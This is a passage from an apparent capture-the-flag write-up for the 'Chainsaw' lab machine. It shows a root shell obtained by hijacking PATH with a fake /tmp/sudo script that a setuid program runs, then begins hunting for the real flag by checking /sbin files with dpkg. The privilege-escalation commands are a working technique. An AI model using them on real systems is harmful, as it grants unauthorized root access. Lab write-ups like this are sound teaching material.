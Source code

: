 I'll add `/tmp` to the front of the path:



    bobby@chainsaw:~/projects/ChainsawClub$ export PATH=/tmp:$PATH



Now, I'll drop a script to run `bash` into `/tmp/sudo`, and get root:



    bobby@chainsaw:~/projects/ChainsawClub$ echo -e '#!/bin/bash\n\n/bin/bash' > /tmp/sudo
    bobby@chainsaw:~/projects/ChainsawClub$ chmod +x /tmp/sudo
    bobby@chainsaw:~/projects/ChainsawClub$ ./ChainsawClub 
    root@chainsaw:~/projects/ChainsawClub# id
    uid=0(root) gid=1000(bobby) groups=1000(bobby),30(dip)



## Find Flag

### No Flag Yet

The intended path did give a warning: "Rule #1: Do not get excited too
fast." With a shell as root, `root.txt` is not the flag:



    root@chainsaw:/root# cat root.txt
    Mine deeper to get rewarded with root coin (RTC)...



### Slack Space

#### Enumeration

I eventually had to ask for a hint from a friend here, who told me that
notice that `bmap` was on the box. Ippsec just tipped me to how he found
it, which is cool, so I'll share here.

Basically, files in `/sbin` are programs managed by the Apt Package
manager. If a file is in there and not keep updated by the package
manager, that's odd, and worth investigating.

I can search what's managed by `apt` using `dpkg --search`. For example,
I'll take the first program in `/sbin` on Chainsaw, `acpi_available`:



    root@chainsaw:~/projects/ChainsawClub# ls /sbin/ | head -1
    acpi_available



If I run `dpkg`, I can see the files associated with it:



    root@chainsaw:~/projects/ChainsawClub# dpkg --search acpi_available
    powermgmt-base: /sbin/acpi_available
    powermgmt-base: /usr/share/man/man1/acpi_available.1.gz
